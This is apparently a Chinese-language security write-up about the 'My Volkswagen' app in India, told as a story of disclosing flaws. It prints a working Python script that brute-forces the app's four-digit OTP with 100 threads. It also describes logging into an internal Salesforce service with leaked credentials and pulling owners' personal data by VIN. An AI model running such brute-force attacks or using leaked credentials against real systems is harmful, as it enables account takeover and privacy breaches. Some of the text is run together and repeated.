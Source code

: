 购买二手车看似简单——付钱、拿钥匙、播放你最喜欢的歌单，然后开车走人。然而，在这个万物互联的时代，“所有权”的意义远不止驾驶座。2024年，我买了一辆二手车。作为一个科技迷，我迫不及待地想探索它的互联功能。车停好后，我立即在手机上安装了“我的大众”（ŠKODA Auto Volkswagen India Pvt Ltd）应用程序。设置过程中，它要求输入车辆识别号码（VIN）——很简单，就在挡风玻璃上。然后，它要求输入一个四位数的一次性密码（OTP）——我以为获取这个密码应该很容易。结果并非如此。当挫折激发好奇心OTP 被发送到了前车主的手机上。我打电话给汽车经销商，询问前车主的联系方式。虽然他提供了他们的电话号码，但我还是无法通过电话联系到他们。我发了一条短信，等了一个小时，却没有收到任何回复。迫不及待地想要尝试一下这款应用，我尝试输入一些随机代码，看看能否成功。但什么也没成功。即使我尝试了大约 10 到 15 次，应用程序也没有阻止我继续尝试。这激起了我的直觉：如果我暴力破解所有 10,000 种组合会怎么样？它会阻止我吗？只有一种方法可以找到答案。发现过程（有趣的技术部分）距离我上次使用值得信赖的旧款Burp Suite已经有一段时间了。配置我的 iPhone 的 Wi-Fi 代理并安装 Burp 的 CA 证书后，我使用随机 OTP 触发了一个请求，以查看它是什么样子（查看此处以获取有关如何自行操作的完整指南）。很快，我就能检查该应用程序通过互联网发送的所有请求了。在筛选这些请求寻找我的 OTP 时，我发现了其他几个有趣的 API 调用，我将在下面讨论。这是等待我的四位数代码的登录端点。一旦我识别了请求，我就会尝试强制破解 OTP 字段，但 Burp 社区版本的速度太慢了，让我很不满意。我编写了一个 Python 脚本，import requestsfrom concurrent.futures import ThreadPoolExecutor, as_completed# API endpointurl = <REDACTED># Headers for the requestheaders = {"Host": <REDACTED>,"Accept": "*/*","Content-Type": "application/json","Authorization": <REDACTED>}# Data templatedata_template = {"brand": "VW","installationID": <REDACTED>,"userID": <REDACTED>,"vehicleID": <REDACTED>,"otp": "5555"# OTP placeholder}# Function to send a single requestdefsend_request(otp):    otp_str = f"{otp:04}"# Format OTP as 4 digits    data = data_template.copy()    data["otp"] = otp_strtry:        response = requests.post(url, json=data, headers=headers)        result = f"OTP: {otp_str} | Response Code: {response.status_code} | Body: {response.text}"except requests.exceptions.RequestException as e:        result = f"OTP: {otp_str} | Error: {e}"return result# Concurrent executiondefmain():    max_workers = 100# Number of concurrent threadswith ThreadPoolExecutor(max_workers=max_workers) as executor, open("responses.txt", "w") as file:# Submit tasks for each OTP        futures = {executor.submit(send_request, otp): otp for otp inrange(10000)}for future in as_completed(futures):            result = future.result()# Log to console for monitoringprint(result)# Write result to file            file.write(result + "\n")if __name__ == "__main__":    main()几秒钟之内，脚本就命中了几秒钟之内，脚本就命中了有效的 OTP，应用程序最终列出了我的车，表示响应成功的输出汽车已添加到“我的大众汽车”部分我终于成功访问了我的车！但这不禁让我怀疑，这个应用程序可能还存在哪些安全漏洞？我回到 Burp，检查了各种 API 调用，发现了几个严重的问题：漏洞1：内部凭证以明文形式泄露API 端点以明文形式公开各种内部服务的密码、令牌和用户名，其中包括内部应用程序、支付处理详细信息，甚至销售人员等 CRM 工具。密码、令牌、用户名使用上述凭证成功对其中一个服务进行身份验证 — salesforce漏洞二：通过车辆识别码 (VIN) 泄露车主个人信息另一个 API 端点仅使用 VIN 号码即可显示汽车购买的所有服务和维护包。每个服务包条目都包含大量客户信息，包括姓名、电话号码、邮政地址、电子邮件地址、汽车详细信息（型号、颜色、注册号、底盘号、发动机号）、有效服务合同、购买日期和付款金额等。任何车辆的购买套餐均可通过车辆识别号码 (VIN) 访问显示可通过此端点访问的数据的示例条目：{"old":{"VALID_CONTRACTS_AND_INTREM_CONTRACTS_VW":{"CONTRACT_ID": <REDACTED>,"PRODUCT_NAME": <REDACTED>,"PRODUCT_DESC": <REDACTED>,"PAYMENT_STATUS":null,"PRODUCT_ID": <REDACTED>,"MST_VAS_TYPE_ID": <REDACTED>,"PLAN_ID": <REDACTED>,"INVOICE_NUMBER": <REDACTED>,"DEALER_ID": <REDACTED>,"DATE_OF_SALE": <REDACTED>,"SELLER_ID":null,"SELLER_TYPE": <REDACTED>,"SOLD_BY":null,"SOLD_TYPE": <REDACTED>,"VALID_FROM_DATE": <REDACTED>,"VALID_TILL_DATE": <REDACTED>,"VALID_TILL_DISTANCE":null,"IS_OWNERSHIP_CHANGED":null,"STATUS": <REDACTED>,"GENERAL_COMMENTS":null,"IS_SHORTCLOSED":null,"SHORTCLOSED_ON":null,"SHORTCLOSED_COMMENTS":null,"VIN": <REDACTED>,"ENGINE_NUMBER": <REDACTED>,"CHASSIS_NUMBER": <REDACTED>,"REGD_NUMBER": <REDACTED>,"ORDER_FROM":null,"CURRENT_KM":null,"MODEL": <REDACTED>,"VARIANT": <REDACTED>,"COLOR":null,"SHADE":null,"PUR_CITY":null,"REGD_CITY":null,"REGD_OWNER": <REDACTED>,"USER_NAME":null,"MOBILE": <REDACTED>,"FAX":null,"PHONE":null,"EMAIL": <REDACTED>,"ADDRESS_LINE1": <REDACTED>,"ADDRESS_LINE2":null,"CITY": <REDACTED>,"PINCODE": <REDACTED>,"CREATED_ON": <REDACTED>,"CREATED_BY": <REDACTED>,"MODIFIED_ON": <REDACTED>,"MODIFIED_BY": <REDACTED>,"PARTS_MRP": <REDACTED>,"LABOR_COST": <REDACTED>,"SWACH_BHARAT_CESS":null,"KRISHI_KALYAN_CESS":null,"SERVICETAX":null,"SWACH_BHARAT_CESS_PERCENTAGE":null,"KRISHI_KALYAN_CESS_PERCENTAGE":null,"SERVICETAX_PERCENTAGE":null,"CUSTOMER_GSTIN":null,"CUSTOMER_GSTIN_AVAILABLE":null,"SGST": <REDACTED>,"IGST": <REDACTED>,"CGST": <REDACTED>,"CESS": <REDACTED>,"GSTIN":null,"SGST_PERCENTAGE": <REDACTED>,"CGST_PERCENTAGE": <REDACTED>,"IGST_PERCENTAGE": <REDACTED>,"CESS_PERCENTAGE": <REDACTED>,"STATE_NUM": <REDACTED>,"RELATED_CONTRACT_ID": <REDACTED>,"FUEL_TYPE": <REDACTED>,"ODOMETER_READING": <REDACTED>,"CONTRACT_STATUS": <REDACTED>,"CERTIFICATE_NUMBER":null,"MODEL_CODE":null,"SCORE":null,"UPLOAD_FILES":null,"CREDIT_INVOICE_NUMBER":null,"CREDIT_CREATED_ON":null,"MODEL_YEAR": <REDACTED>,"BRAND": <REDACTED>,"EW_NUMBER":null,"TYPE_OF_CONTRACT": <REDACTED>,"COST_BEFORE_DEALER_DISCOUNT":null,"DEALER_DISCOUNT_TYPE":null,"DEALER_DISCOUNT_VALUE":null,"COST_AFTER_DEALER_DISCOUNT":null,"IRN_NUMBER":null,"QR_CODE":null,"IS_IRN_CANCELLED":null,"DISS_K_QUERY_NO":null,"RO_NUMBER":null,"DIAGNOSTIC_PROTOCOL_ID":null,"DAN_NUMBER":null,"DAN_DATE":null,"CARPORT_FILE_GEN": <REDACTED>,"MODE_OF_PAYMENT":null,"PRICE":"0.00"}}}漏洞3：可通过VIN访问车辆服务历史记录另一个端点公开了任何车辆在服务中心的所有访问期间的服务历史记录和所做工作的详细信息，同样，只需使用 VIN 号码即可访问。每次访问车间都有一个条目，其中包括所执行的工作的详细信息、客户的个人信息，甚至每次访问的客户调查结果！使用车辆识别号码 (VIN)